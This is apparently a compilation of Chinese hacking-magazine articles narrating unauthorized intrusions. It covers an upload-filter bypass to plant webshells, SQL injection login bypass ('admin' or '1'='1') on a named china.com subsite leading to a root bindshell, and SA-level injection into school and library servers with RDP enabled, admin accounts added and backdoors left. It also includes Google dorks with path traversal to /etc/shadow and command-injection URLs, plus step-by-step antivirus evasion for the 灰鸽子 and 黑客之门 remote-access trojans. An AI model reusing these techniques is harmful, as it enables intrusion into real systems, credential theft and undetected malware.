## Bug2：上传文件漏洞

不要说我忽悠大家啊，这个漏洞当初我也没有注意到，不太注意还真看不到。首先看看程序是怎么来过滤上传文件的扩展名的，从 include 文件夹下的 conf.php 中看到下面的代码：

```php
$rejectedfiles = "^index\\.|\\.desc$|\\.dlcnt$|\\.php$|\\.php\\..*|\\.php3$|\\.php3\\..*|\\.cgi\\..*|\\.cgi$|\\.pl$|\\.pl\\..*";
```

我们是不是还可以上传规定以外的文件类型，这也是我初看时候的想法，针对服务器是 IIS 架设的我们就可以上传 asp、aspx、jsp、cfm 木马了。至于马的路径则是 files + 木马的文件名。那么我们很容易就能得到一个 webshell，关键就看服务器是否支持我们传的木马的格式了，如图 5，可以查到服务器是支持 ASP 的。

当然你也可以用 WsockExpert 抓包来看看服务器到底是什么类型的。你抓到下面的信息就说明服务器是 Win32 的，就应该支持 ASP 了。

```http
HTTP/1.1 200 OK
Date: Mon, 13 Mar 2006 04:56:18 GMT
Server: Apache/1.3.31 (Win32) PHP/5.0.1
Accept-Ranges: bytes
X-Powered-By: PHP/4.3.1
Transfer-Encoding: chunked
Content-Type: text/html; charset=gb2312
```

现在我们再回过头来仔细看看上面这句代码：

```php
$rejectedfiles = "^index\\.|\\.desc$|\\.dlcnt$|\\.php$|\\.php\\..*|\\.php3$|\\.php3\\..*|\\.cgi\\..*|\\.cgi$|\\.pl$|\\.pl\\..*";
```

大家仔细看看，我们是不是可以上传 *.pl 格式的文件啊！嗯嗯。看代码，可能是作者写的时候笔误吧，上面的“.pl$”少了一个“|”（怎么不是 php 发生笔误呢，^-^），正确的写法应该是：

```php
$rejectedfiles = "^index\\.|\\.desc$|\\.dlcnt$|\\.php$|\\.php\\..*|\\.php3$|\\.php3\\..*|\\.cgi\\..*|\\.cgi$|\\.pl$|\\.pl\\..*";
```

程序是老外写的，可能是人家考虑到程序多是放在 Linux 系统下的，所以就没考虑 asp、aspx，但是大多数 Linux 系统是支持 Perl 的，所以上传一个 Perl 脚本的木马，至此就拿下 PHP Advanced Transfer Manager 的 webshell 了。下面就是上传一个 Perl 写的木马，结果大家可以看到了，如图 6、图 7。

## 本文总结

入侵这套程序关键是看服务器的环境，如果是 IIS，一般使用 ASP 应该没什么问题；如果是 Apache，基本上一个 Perl 脚本就可以搞定，看来写程序的老外们可真不能马虎！不然后果真的很危险啊！好了，就写到这吧，下回见！

> （本文提到的用 Perl 写的木马 test.pl 已经收藏在光盘里）

编后语 1：这个漏洞让我想起了以前那个雪人论坛的漏洞，也是作者笔误，把应当过滤的变量名字写错了，看来在这方面，国外国内都一样啊。

编后语 2：最近发现，好像写代码的一般都比较粗心，而搞安全的却很细心，如本文最精彩的部分就是作者发现限制上传的类型中限制不严，使得在 IIS 环境下可以直接上传 ASP 木马；而在 Linux 系统下则因为写代码的疏忽可以上传一个 Perl 木马加以利用，而且利用也算很广泛了。漏洞的产生，归根下来，还是上传类型处理得不好，这种被动地限制上传类型真的不安全，可谓防不胜防！

## Jsp+Apache 漏洞入侵一例

## ——记对中华网的一次安全检测

创心 [B.C.T]

因为防火墙的存在，现在的系统漏洞在外网上是越来越难利用，我想大家在入侵的时候主要把注意力都放到 Web 端了吧？这些 Web 漏洞有配置上的，也有脚本程序上的，主要搭建的平台有 Asp+IIS、Apache+PHP 等等。这些平台都有各自的入侵方法，Jsp+Apache 的组合方式可能大家就见得少了，今天就给大家讲述我的一次 Jsp+Apache 入侵经历。

XXXX.china.com 是国内中华网提供主页空间的一个子站，系统采用的是 Apache+JSP 的组合方式，这通过随便提交个不存在的页面就可以看到，呵呵！今天 Xyt 闲着没事，就给我发过来一个中华网的链接，一看，还不错，典型的 Apache 配置漏洞！提交：http://XXXXXXXX.china.com/web/ 就可以看到目录下的所有文件，如图 1 所示。这是 Apache 的一个安全漏洞了。

Apache 默认就是如果找不到 index.htm 等默认文档的时候，可以对目录进行浏览，这就对我们想了解网站结构和暴露网站弱点提供了便捷。那么多文件你对什么感兴趣呢？呵呵，一般我比较感兴趣的就是 .bak 文件，这个是不能被解释器解释的，访问的话就会出现源代码。但是有点令人失望，这个目录下没有这个文件哇！不过没关系，图中有个 admin 目录哦！我们平时总想找后台，这次一下子就找到了啦！进去看看，又是好多文件。随便点个文件访问，出现登录界面，如图 2 所示。嘿嘿，现在只要能搞到后台账号密码就可以进去逛逛啦！

现在想想怎么能搞到后台账号和密码。这里有个登录框，说明提交后台肯定是连接数据库的，那么就来看看有没有 SQL 注入漏洞吧。JSP 搭配的数据库有 MSSQL、MySQL 以及 Oracle 等。数据库又都是对 ' 敏感的，况且 JSP 环境下是不是对 ' 等特殊字符转义的，所以我们提交账户名为 admin'，密码为 dddd 测试下，提交后如图 3 所示，给出了 N 多的有用信息。

```text
500 Servlet Exception:
java.sql.SQLException: executeQuery() execute fail [SELECT ID,LOGIN_NAME,Password,NAME,EMAIL,TEL,CREATE_TIME,MODIFY_TIME,HIDDEN_FLAG,MANAGE_URL,FRONT_URL,USER_ROLE FROM ADMIN_USER WHERE LOGIN_NAME='admin'' and PASSWORD='dddd'];
java.sql.SQLException: You have an error in your SQL syntax ... near 'dddd'' at line 1
```

上面的错误信息给出了数据库的类型是 MySQL，并且好心地把执行的 SQL 语句也给出来啦！这条语句把用户名和密码组到一个语句里查询，典型的后台绕过漏洞。只要我们提交用户名为 admin' or '1'='1，密码为 dddd，语句就变成：

```sql
SELECT ID,LOGIN_NAME,Password,NAME,EMAIL,TEL,CREATE_TIME,MODIFY_TIME,HIDDEN_FLAG,MANAGE_URL,FRONT_URL,USER_ROLE FROM ADMIN_USER WHERE LOGIN_NAME='admin' or '1'='1' and PASSWORD='dddd'
```

中间有个 or '1'='1'，这样执行的结果肯定为真啦！嘿嘿！


那我们去用这种方式登录试试，哈哈，果然成功进入后台了，如图 4 所示，而且是最高权限的哦！看到了吧！SQL 注入攻击是跟数据库有关的，跟语言无关，虽然是 MySQL 数据库，但是没有 PHP 特性的保护，注入一样简单！

现在进入后台了，要仔细看看后台可以做什么。翻了不一会儿就发现了一个上传文件的地方，赶快翻出一个 JSP 的 webshell 上传，如图 5 所示。等到上传成功后，访问执行命令 id，结果如图 6 所示，居然是 root 权限哦！看来这个 Web 系统还是用 root 运行的哦！剩下的就跟脚本没什么关系了。上传 bindshell.c 然后编译执行，绑定后门之后访问，如图 7 所示，至此一个简单的 JSP 漏洞入侵结束！

再安全的系统在糟糕的配置下只能是糟糕的安全，JSP 脚本漏洞其实跟其他的脚本漏洞一样，就是用户输入的参数没有过滤，至于如何过滤，看看以前《非安全》关于 SQL 注入漏洞修补的文章吧！有什么问题欢迎到非安全论坛讨论，我的 ID 是剑心。

> ［文章里用到的 JSP 的 webshell 和 bindshell.c 已收录在本期光盘中。］

## 渗透的快乐

前些日子无聊玩的时候发现一个注入点，权限是 SA。废话就不说了，大家也不爱听，至于如何找到这个点还花了一番工夫。整站是 aspx 的，在藏得很深的一个目录里找到一个 asp 的链接，看到里面有一个编辑选项，打开后带参数的 URL，随手测试了一下暴出错误，感觉一定有问题，就放到 NBSI 里面扫了一通，结果就出来了（图 1）。

本来想既然是 SA，感觉没什么必要搞下去了，可是在进一步的检测中发现，它过滤了单引号，只能用 encode 方式执行命令。我 ping 了下我自己的 IP，但是发现我的天网没有反应，然后 ping www.163.com，显示 Unknown host www.163.com（图 2）。


看来可以证明数据库服务器是不能连 Internet 的。Web 和数据库果然是分离的。

首先我也就不谈通过扫表拿网站后台密码之类的方法得到 SHELL 了，要是这样能拿到权限就不会有下文了。好了，言归正传，从 IPCONFIG 看到它原来的网关是 192.168.0.99，我想接下来大家可能都会想到用 netsh interface ip set address "本地连接" static 192.168.0.99 255.255.255.0 192.168.0.1 1 来更改它的网关。


这个即为那个 VBS 脚本。可当我一句一句 echo 的时候，发现这个注入点有参数被多次调用，导致注射时不可以多次 echo，会出现重复语句。这个可能大家也都知道，可以 echo 到 1.txt、2.txt、3.txt……完了后，copy 1.txt+2.txt+3.txt+…… n.vbs。真可谓是苦力活啊，做完苦力后执行 cscript n.vbs，果然发现 c:\2.txt 里面有“本地连接”四个字。接下来就是组合了，当然写下面这个的时候也要用写 VBS 同样的方法：

```text
interface ip
set address "本地连接" static 192.168.1.12 255.255.255.0 192.168.1.1 1
exit
```


当我又一次 copy a.txt+b.txt+c.txt+……+k.txt 做完苦力后，发现执行 netsh exec k.txt 又出现错误（图 4）。

Type k.txt 后发现，显示是这样的（图 5）：


原来多了换行，我简直要抓狂了！本来执行的时候就开始 YY 了，幻想着拿到权限后下一步的计划呢！看来又失败了，不过还好，我就喜欢富有挑战性的东西，所以本文章的题目就是我的感受。又郁闷了一会，在 Google 上找到了金子：

```text
netsh interface ip dump >ip.txt
修改 ip.txt
netsh exec ip.txt
```

也就是先导出配置文件；然后修改配置文件；最后执行。看来还得需要 VBS 去修改 ip.txt。又是苦力活。从下面这个配置文件来看，改网关的话，只需要修改一处就 OK 了。关键就是定位问题，不多说了，只说我写好的 VBS。先来看一下导出的配置文件 ceshi.txt：

```text
# --------------------
# 接口 IP 配置
# --------------------
pushd interface ip
# "本地连接" 的接口IP配置
set address name="本地连接" source=static addr=192.168.0.168 mask=255.255.255.0
set address name="本地连接" gateway=192.168.0.1 gwmetric=0
set dns name="本地连接" source=static addr=none register=PRIMARY
set wins name="本地连接" source=static addr=none
popd
# 接口 IP 配置结束
```

再来看一下，我写的 VBS：

其实我也是这么想的，不过在实际操作过程当中，因为过滤掉引号的缘故，“本地连接”这 4 个汉字要转化成 16 进制，在转化回去的时候出现乱码（图 3）。看来 echo 的方法不行，那么我们还有 exe2vbs 嘛；不过令我失望的是无论怎样都传不上去文件，总提示文件没找到。难道是一传上去就被杀？？net start 看看结果吧：

- Symantec AntiVirus
- Symantec AntiVirus Definition Watcher
- Symantec Event Manager
- Symantec Settings Manager

果然，是装了 Symantec AntiVirus。依次停掉这些服务，确认没有任何杀毒软件后仍然是传不上去文件。这个问题我百思不得其解。算了，再想想其他思路吧。抽了根烟，随手执行了 ipconfig 命令，突然发现回显里出现：“Ethernet adapter 本地连接：”这些字符。先缺的不就是“本地连接”这几个汉字吗？灵感一来，思路也清晰了。执行 ipconfig>kyo.txt，再写一个 VBS 取 kyo.txt 文本里面的“本地连接”这 4 个字符保存到一个 txt 文档，那么不就得到了我们想要的东西了吗？代码如下：

```vb
Set fso = CreateObject("Scripting.FileSystemObject")
set file = fso.OpenTextFile("c:\1.txt",1)
set file1 = fso.CreateTextFile("c:\2.txt",1)
file.readline
file.readline
file.readline
file1.write (mid(file.readline(),18,4))
file.close
file1.close
set file1=nothing
set file=nothing
set fso=nothing
```

```vb
dim fso,file1,text,pos
set fso=createobject("Scripting.FileSystemObject")
set file1=fso.opentextfile("c:\ceshi.txt")
text=file1.readall()
file1.close
set file1=fso.createtextfile("c:\ceshi.txt")
pos=285
file1.write left(text,pos-1)
file1.write "1"
file1.write mid(text,pos+2,len(text)-pos)
file1.close
set file1=nothing
set fso=nothing
```

又一句句写上去再 copy，执行后成功地修改了网关，后来根据 arp -a、pathping 等命令配合使用顺利猜到能上网的网关改了过去。既然能上网，权限又是 SA，以后的相关操作网上介绍的文章多如牛毛，我也就不画蛇添足了。直接写了一个下载文件的 VBS，传上我的木马，这台服务器就被我俘虏了。写到最后我还想 YY 一下，也许突破这种情况的方法还有别的，不过利用这种方法成功的估计我还是古今第一人，呵呵。关键是写 VBS 时的乐趣至今仍然令人回味无穷。

> 编辑点评：……（文末点评文字，含 SQL 注入与 netsh 命令片段评论）

## 一次意外入侵之旅

前不久，看到一个学校网站，闲得无聊就来测试测试它的安全性。网站是 ASP 系统，随手打开一个新闻页面，在地址栏 ViewInfo.asp?id=105 后面加了个单引号，结果返回到首页，再加上 and 1=1 还是返回首页，显然已经进行过防注处理。继续查找漏洞，有个站内搜索，不管三七二十一再敲上个单引号，搜索结果出来了：“没有找到任何信息”，郁闷 ing。再找，发现站内留言，试试有没有跨站漏洞，输入 `<script>alert("DD")</script>`，真是够狠，又返回 `<script>alert("DD")</script>`，看来这里他做过处理，再次郁闷 ing。

要不再试试后台弱密码，不过可能性极小，管他呢，试了再说。很快猜到后台登录页面为：admin_login.asp，先输入 `or'1='1`，点登录，失败，正准备再试 admin 之类的弱密码，噢，先别着急，各位观众，看到了什么？如图 1 所示。

哈哈，高贝系统！看到这个，就好像赌神看到四个 A 一样，还等什么，赶快到网上下载了一个高贝系统 2.0，找到默认数据库“database/GaoBeiSys_V1x.mdb”，输入到 URL 地址栏，回车，数据库名字没改，竟然下载下来了。打开数据库，找到 admin 字段，不好，是经过 MD5 加密的，用 MD5 crack2.3 进行破解，运气真好，是纯数字的密码，很快就出来了，如图 2 所示。

就这样，得到了后台管理权限。进去一看，真是低估了高贝系统，原来它的后台功能这么强大（咋，你不就是希望如此吗？），还有黑友们最喜欢的“数据库备份功能”，真是开心，看来这个 webshell 拿定了。迅速找到新闻版块，添加新闻，在图片上传的地方，上传了一个改后缀为 jpg 的 ASP 木马。真是天天有怪事，唯独今天多，没提到的事情又发生了，如图 3 所示。

竟然提示找不到 upload_class.asp 文件，这是怎么回事，难道管理员把这个页面给删掉了？有必要嘛！这下可不好办了，没法上传图片了，眼看 webshell 就要到手了，怎能轻易放弃呢。换个思路，看看有没有其它上传的地方。回到主页，哈哈，还有个论坛，真是天无绝人之路！一看还是动网 7.0 的论坛，虽说动网的漏洞也不少，可现在主要任务是上传图片，可不要三心二意。很快注册成功，随便找到一个社区发帖子，竟然提示新注册的用户二十分钟内不许发帖子，真是令人痛恨！漫长的二十分钟终于过去了，发帖“点鼠标的手都在颤抖，不知是激动还是愤怒”，成功，得到图片路径“/upfile/pic/200603221780.jpg”，这就是我放上去的木马。再回到高贝系统后台，在备份数据库的地方输入地址：“bbs/pic/upfile/pic/200603221780.jpg”，由于图片是存放在论坛目录下的，所以这里地址前添了个 bbs，接下来一切顺利，很快得到 ASP 木马的地址，登录成功，如图 4 所示。

还是系统权限，cmd 命令也能运行，入侵到此正式结束。不过我还得在这里啰嗦几句，这次入侵并没有什么技术含量，但是由此可以看出，使用别人的系统是绝对不能暴出这种致命的信息的（比如本文的后台信息泄露），另外，默认数据库名也是要修改的。网管朋友们，在这个动荡不安的网络年代，可不能这么疏忽哦！

> 编辑点评：这篇文章让我们想起一句话，网管弱智，竟让黑客成名。不过这里的“黑客”可不是贬低作者的意思，我们不都是黑客小子么？

## 一次意外入侵之旅


## 一北大方正图书馆的较量

> 灰色轨迹

这事还得从我们学校的北大方正数字图书馆说起。我一向喜欢对学校进行检测，学校的好几台服务器都被我搞定了。那时喜欢用 Domain3.5，检测过程中从没发现过什么（呵呵，也许是我技术不到家的原因吧）。偶然的一个机会，我用啊D的 SQL 工具试了试，没想到却发现了一个注入点，再检测，还是 SA 的注入点。呵呵，这下可让我乐坏了，于是怪起自己来，谁叫自己一直用 Domain3.5 呢，用用其它工具也是可以的嘛，呵呵。既然有了 SA 的注入点，就什么都好做了。后来将学校的这台机子拿了 3389，并简单地作了一下漏洞的修补，而后便在服务器里做了个代理上网，以后上网就不花钱啦。事后，我又想起了这事，这可是北大方正的系统哦，怎么会出现 SA 的注入点呢？于是到网上搜了一下，搜出好多这样的系统，随便找了几个检测了一下，没想到都是 SA 的注入点，哇，这下可发了大财了！

下面就拿一个方正图书系统的网站来做例子，演示全程入侵过程及漏洞的简单修补过程。我随便选了一个服务器，也不知道是哪个学校的，查 IP 地址显示的是重庆，不管那么多了，先来看啊D的扫描结果（图 1）。


出现了注入点，再对注入点进行检测，得到结果（图 2）。


是 SA 的注入点，下面就是找出绝对路径了。我比较喜欢用 NBSI 来找，下面是检测的结果（图 3）。


找到绝对路径后，我的思路是写入一句话木马，然后再用客户端连上去。下面是上传结果（图 4）。


用一句话连接之后出现错误（图 5），这是怎么回事？后来经过多次试验发现，这个目录一般用户根本无法写入文件，刚才的一句话木马是在 SA 权限下写入的，而用一句话写入时权限不够，没办法。为了节约时间，我选择先传一个小马，到 web 目录下，然后再用小马去弄大马，因为自己知道绝对路径嘛（图 6）。


当然，你不怕麻烦的话也可以直接写入大马，不过要注意的是，用 NBSI 必须上传没有经过加密的大马，经过加密了的大马，我在测试中有时是传不上去的。这样我便得到了一个小马地址，打开一看，晕了（图 7）。这才发现小马也是被加了密的，看来只得传个大马了。

好几分钟才将大马写入，总算拿到了一个 webshell（后来我在测试其它网站时发现，有些网站在 SA 下不能向 web 所在的目录写入文件。我的做法是先将大马写入像 `C:\Inetpub\wwwroot\` 等一些可写的目录，然后在 SA 权限下执行 DOS 命令：`copy C:\Inetpub\wwwroot\dama.asp d:\Founder\DLibrary\css\dama.asp`，这样就可以拿到一个 webshell。一般像这种情况下，先用第一种，然后用第二种，应该会有一种成功的。其实第二种方法说白了，和冰狐木马的功能类似）。

> 说明：我在检测其它方正图书馆管理系统的时候，发现有些系统并不如本文中写的一样，比如有些系统在 SA 下也不能向 web 所在的目录写入 ASP 后门；有些系统在 SA 下的 copy 命令不能用，这样拿 webshell 就有一些难度了。到底如何做还是大家自己发挥潜力吧，对于这样的系统我就没有能力再进一步入侵了，因为现在学习紧啊，呵呵。在此，我向学习黑客的在校学生提个醒啊，千万不要因为搞黑客而误了学业，我现在就已经误了不少，正奋力追赶呢。

现在已经拿到 webshell 了，就要向更高的权限下手了。首先看看能不能用“WScript.Shell 程序运行器”执行命令。晕，出现“对象不支持此属性或方法：缺少对象”，看来还是得找 NBSI 了（图8）。

发现 3389 服务没有打开，用 X-Scan 扫描后发现也只有 80、110 端口可用，看来路不好走啊。不过一想，只有受 SA 的注入点，就什么都好说了，下面要做的是开它的 3389。方法当然很多，不过我这次用的却是最简单的方法。这次用到的工具是 HDSI，工具多了就是好办事，先将注入点复制到 HDSI 里检测一下，然后点左边的高级命令，这时大家就会看右边有一个“开启3389”的按钮了，直接点击这个按钮，出现提示 3389 开启成功的字样（图9）。

接着再刷新它的主页，显示“没有可以显示的页面”，看来远程服务器真的重启了。刷新了几次，等到网页可以打开后，又用 NBSI 检测了端口，发现真的开了 3389（图10）。

其实，我在后来入侵其它方正系统时发现这种方法并不是特别好用，因为有的开不了（大部分是开得了的），所以大家还可以用其它方法去开 3389，如通过 webshell 上传 3389.exe 然后在 SA 下执行命令等，这里我就不再举例了，因为老方法大家都会。这种开 3389 的方法我是第一次用到，所以就只说这种了，呵呵，高手见笑了。接着又加了一个用户 guiji 并提升为管理员（图11）。

开了 3389 可以说是上了一大步了，下面就用远程登录连接吧，结果却是“客户端无法连接到远程计算机”，呵呵，当然出现这种情况了，要不然前面也不会说只开了 80 等几个无用的端口了。既然开了 3389 又无法连接，那我只有端口映射了（如果大家对端口映射不是很了解的话可以去看看《黑客手册》2006 年第三期的《端口映射——里应外合》这篇文章），先看看它的 IP 情况（图12）。

看来是内网的机子，由于只有两个端口，我就拿 80 端口开刀了。先在 webshell 里将端口映射工具 fpipe.exe 上传到 `d:\` 目录里，然后用命令 `copy d:\fpipe.exe C:\WINNT\system32\fpipe.exe`……（长段技术叙述，内容涉及端口转发、3389 连接与操作失误经过）。

到此，整个入侵过程也就算结束了。回想一下，这其中也没用到什么技术，都是用工具在弄，希望大家不要见笑。那么拿到肉机后如何保护肉机呢？下面谈谈我的一些想法。

先说下简单的漏洞修补，这是为了防止别人注入得到 shell。在网上可以搜一下 SQL 防注入程序，比如枫叶的 SQL 防注入程序……（介绍在 `product.asp` 中插入包含文件等做法）。

且是处于内网之中，所以想留服务器后门就不好弄，我只说下留 web 后门。当然你可以留个 webshell……（介绍复制 `product.asp` 为 `product_bak.asp`、隐蔽注入点与备份连接文件等）。

我在黑客论坛上的 ID 是灰色轨迹，注册也是因为写了这篇文章……最后，感谢《黑客手册》陪伴我成长，谢谢！

> ［文章里用到的工具 fpipe、httptunnel 3.0 已收录在本期光盘中。］

通常情况下，SA 权限应当一般菜鸟都可以搞定。这里针对作者的几个疑惑和他不太明白的地方来解答一下……（编者按/补充说明，涉及权限、NAT 映射、端口转发与反弹木马）。

## 查看系统资讯

- `cat /proc/cpuinfo` — CPU（vendor、MHz、flags）
- `cat /proc/interrupts` — 中断
- `cat /proc/ioports` — 设备 IO 端口
- `cat /proc/meminfo` — 内存信息
- `cat /proc/partitions` — 分区信息
- `cat /proc/pci` — PCI 设备信息
- `cat /proc/swaps` — Swap 分区信息
- `cat /proc/version` — Linux 版本
- `uname -a` — 系统内核等信息

latteye 夜话：看完上次“夜航船”的长篇资料后，读者们会不会举手手的呢？来吧，本期我们来看一篇小文章。可别看是小文章，它可以让你快速地获得服务器的文件、执行权限、数据库密码呢！到底是什么？Google Hack 让你大开眼界！

## Google Hack: PHP Source Viewer/Editor/Command Execution/Disclosure

## Google 黑客：PHP 代码查看 / 编辑 / 执行命令 / 泄漏源代码

BY KAPDA

Risk: High  
Vulnerabilities: Remote Command Execution / Source Code Disclosure  
Advisory:

Many admins create/modify pages directly on their servers with the use of another php page.  
They either write those scripts themselves or use pre-built scripts.  
Just search in google for something like  
"PHP Source Viewer" source.php  
"Source viewer" .php  
"Viewer" file= .php  
...

or something similar  
and google will return many results like  
http://victim/source.php?file=somepage.php  
http://victim/source.php?url=somepage.php  
http://victim/source.php?open=../../etc/shadow  
...  
http://victim/source_viewer.php

If you just modify the url, you can read any php script (or other files like etc/shadow) on that site.  
Including of course the index pages and the pages with mysql database usernames and passwords, which could lead to further attacks and possible complete compromise of the server.

只要你修改 URL，你就可以读取站点上的任一脚本（或者其他文件，比如 etc/shadow）。当然也可以读取主页和那些包括了 MySQL 数据库用户名和密码的页面。读取这些页面可以更进一步地攻击服务器，且更加威胁到服务器的安全。

Of course many of those scripts are so poorly written that it’s easy to find a remote command execution bug.

(http://victim/somepage.cgi?file=|ls -a|  
http://victim/somepage.php?file=;ls%20-a  
...)

当然这些页面非常容易编写，且很容易让人得到远程执行命令的漏洞。

(http://victim/somepage.cgi?file=|ls -a|,  
http://victim/somepage.php?file=;ls%20-a  
...)

Many PHP builder scripts exist on the internet. Here is an example vendor who offers vulnerable scripts.  
PHP source viewer from http://www.cgixp.tk/ Google search string: "Powered By: PHP Source Viewer"

还有很多 PHP 脚本存在于网络上。这里提供了一个易受攻击的脚本例子。来自 http://www.cgixp.tk/ 的 PHP 阅读器。Google 搜索关键词：“Powered By: PHP Source Viewer”。

风险等级：高  
弱点：远程执行命令、泄漏源代码。  
资料：许多管理员在一些使用 php 页面的服务器上直接生成、修改 PHP 页面。他们也会自己写脚本或者自己改编脚本。只要在 google 里面搜索类似以下的内容：

"PHP Source Viewer" source.php  
"Source viewer" .php  
"Viewer" file= .php  
...

Google 就会返回很多类似于这样的信息：  
http://victim/source.php?file=somepage.php  
http://victim/source.php?url=somepage.php  
http://victim/source.php?open=../../etc/shadow !!!  
...  
http://victim/source_viewer.php

## 灰鸽子瑞星内存免杀神话——

## 多套内存特征码 + 输入表函数免杀

- 从头到尾可分到：
- 1. LordPE 的使用方法。
- 2. UltraEdit 的使用方法。
- 3. 逆向与内存特征修改方法。

### 一、引子

许多朋友在入侵的过程中拿下了服务器权限，却往往卡在了最后一步。将自己的爱马传上去后，却一一被杀毒软件拿下。你不妨看看此文，可能对你有些帮助，本人菜鸟一只，不足之处，敬请包涵。

## 二、初步免杀

- 免杀对象：XXX 专版的鸽子服务端（无壳）
- 使用工具：OLLYDBG（OD）
- 1. LordPE（PE 编辑器，后文要用到）
- 2. UltraEdit（一款强大的 HEX 编辑工具）
- 3. 通过杀毒软件瑞星 2006.18.16.42，更新日期：2006-3-3

近一段日子，灰鸽子 XXX 专用版（好像和灰鸽子远程控制 2.0 差不多）可以说比较热门，所以各大杀软都盯准了它。许多网友问我它的瑞星内存总是过不了。瑞星的病毒码也不断更新，到现在可以说是有 N 套内存特征码。不过，只要根据我提供的“灰鸽子瑞星常用内存特征代码”来修改，一般就可以搞定了，也可以查阅有关资料。下面就看我不加壳、不加花指令、不改跳转，来拿下瑞星内存查杀！

**一般性的其它内存免杀，你可以用改跳转法、改大小写等。**

下面给出灰鸽子瑞星常用内存特征代码，见表 1。

| 序号 | 特征位置/字符串 | 处理方式 |
|---|---|---|
| 1 | Software\Borland\Locales | 用 HEX 编辑软件将其用零填充即可，不影响运行 |
| 2 | atg?/! | 可以改大小写 |
| 3 | Internet Explorer\IEXPLORE.EXE | 修改大小写 |
| 4 | BEL_ZHU\software\Microsoft\Windows\CurrentVersion\Setup | 修改大小写 |
| 5 | software\Microsoft\Windows\CurrentVersion\Run | 修改大小写 |
| 6 | 提示“鸽子远程控制服务端安装成功！” | 可以改成其它的，或用零填充 |

我先用 OD 载入上面修改好的文件，再用瑞星的内存查杀，如图 1、图 2 所示。

杀就删除文件，将范围逐渐缩小。这样可以变成手动来定位内存特征码。第一次替换，把手动操作设置成“总共规定个数的文件”，设置个数为 10 个。然后选取文件特征码检测，打开编辑窗体，“起始位置”设为 `00000400`，检测大小 `000A7800`，不用 0 填充，最后添加区段确定。生成文件后，用 OLLYDBG 载入文件，点瑞星的内存查杀，如果杀了就删除文件，十个文件中有 1 个没被杀，再根据这个文件的“起始位置”和“检测大小”来进行第 2 次生成。经过几次定位之后，最后将特征码缩小在几个字节范围内。

## 三、偷梁换柱 完全免杀

下面我就主要讲讲瑞星报为“Backdoor.gpigeon.5.fd”这套内存特征码的免杀（是定位在输入表函数上的）。经过上面免杀的修改，应该其它的内存特征码已经免杀，就剩下“Backdoor.gpigeon.5.fd”。好，下面我们来拿下它！

现载入出错（记下 `wininet.dll`，后面有用的），如图 4 所示。确定后程序退出，看来用修改大小的方法不行。用跳转法也比较麻烦，我就教大家个新方法吧！

再次用 UltraEdit 打开未修改前的文件，我们找程序空地吧，比如我找到在 `C5A90`，把“InternetOpenUrlA”（注意大小写）写入程序，如图 5 所示。记下这个地址 `C5A90`，保存！好，我们用 LordPE 编辑器打开修改好的文件，点选目录，如图 6 所示。再打开导入表中的 `wininet.dll`，如图 7 所示。

看看有没有“InternetOpenUrlA”这个函数啊？这个“ThunkValue”就是我们上面图 3 中的地址，我们选中“InternetOpenUrlA”按右键编辑，将 Thunk 值 `C4127` 改为上面我在程序中写入此函数的地址：`C5A8E`。修改好后，如图 8、图 9 所示。

为什么写入此函数的地址不是 `C5A90` 呢？这是因为每个输入表之间都有一个空格。

不难发现，正常修改后的函数 API 名称是正常显示的，修改好保存。我们再次用 UltraEdit 打开修改后的程序，来到 `C4127`，将原来的 InternetOpenUrlA 用零填充。因为我已经将 InternetOpenUrlA 搬到 `C5A8E` 了，所以不用担心会出错！

③现在来测试下，用 OD 成功载入！再用瑞星内存查杀，成功免杀！运行文件看看鸽子有没有上线，成功上线，用瑞星内存查杀，查不到！鸽子的所有功能正常，如图 10 所示。

### 四、总结

在定位时大家可以根据文件的大小来确定替换的起始位置和替换大小，大小缩小到几十字节后，可以将手动操作设置中的“生成个数”改成“替换字节大小”。如果觉得用 OD 一个个载入太慢的话，可以同时用多个 OD 载入多个文件。文章写得十分简单，基本上可以对付瑞星的内存查杀了，大家可以变通一下，万变不离其宗嘛！

> 【文中涉及到的 LordPE v1.40 汉化版、OLLYDBG，已经收录在光盘中】

## 卡巴斯基克星论盟止黑客之门的再次开篇

> 本教程你可以通过删除代码定位方式，通过 00 的使用和综合特征码的定位方式来达到一般修改之后还可以实现定位的修改效果。

免杀程序：黑客之门  
版本：黑客之门 1.2 内部版本  
通过杀毒软件：卡巴斯基  
病毒库更新日期：2006-04-04

大家好，我是冰，很高兴又跟大家见面了。这次我带来的是黑客之门的免杀教程。免杀的对象依然是卡巴斯基，本来想用瑞星来做这个教程的，但是瑞星的特征码定位跟以前定位的方法大同小异，估计大家看了也没有什么意思，所以最终还是选择了卡巴斯基。嘿嘿，至于是什么好方法，大家继续往下看！

## 一、CCL 折半定位法

我们依然使用的是 CCL 来定位，只是这次定位的方法有点不同。上次跟大家说了通过病毒名字来定位特征码的方法，可能现在已经有很多朋友发现这个方法不怎么管用了。好！那么现在要讲的是另外一种定位方法：CCL 的折半定位方法。这个方法对复杂的特征码很有效，如图 1 所示。

## 二、实战演习

相信大家看了原理图之后对折半查找的方法有了一个初步的认识了，下面让我们来实际演习一下。

最终定位结果如下：

| 序号 | 起始偏移 | 大小 | 结束偏移 |
|---|---|---|---|
| 0001 | 00000400 | 00000089 | 00000489 |
| 0002 | 000004E6 | 00000019 | 000004FF |

定位结果：

| 序号 | 起始偏移 | 大小 | 结束偏移 |
|---|---|---|---|
| 0001 | 00014B0C | 00000008 | 00014B14 |

> 小提示：我们知道如果特征码是函数的时候，是不能通过修改大小写的方法来达到免杀的效果，只要一改了函数名大小写，程序就不能正常地运行了。

```text
...ntdll.dll.KE
RNEL32.dll.WTSGe
tCActiveConsoleSe
ssionId.l-.d.l.e-
...NtQuerySystemI
nformation.NtQue
ryInformationPro
cess.CreateToolh
elp32Snapshot.Pro
cess32First.Pro
cess32Next...
```

```text
00014B0F:0033  ADD [EBX], DH
00014B11:C9    LEAVE
00014B12:81C1 00000010 ADD ECX,10000000
00014B18:81C1 0E000000 ADD ECX,E00
```

用等价替换法，将 `ADD ECX,10000000` 改为 `SUB ECX,F0000000`，保存后再用卡巴斯基查杀，不被杀了。再测试一下能不能正常运行。这样就简单过了卡巴斯基这个强悍的杀毒软件。

> 小提示：修改 PE 头文件，一来可以达到长期免杀的目的，因为有时候我们会碰到一些特征码在 PE 段的情况；二来可以保护我们的免杀文件不被他人学走免杀的方法。

## 三、移动 PE 段的位置

用 C32ASM 的 16 进制打开 `hkdoordll.dll`，然后找到 PE 这个地方，P 的地址就是 PE 段的入口点。我们修改 PE 段的时候，主要就是要修改 PE 段的起点和 PE 段的大小。

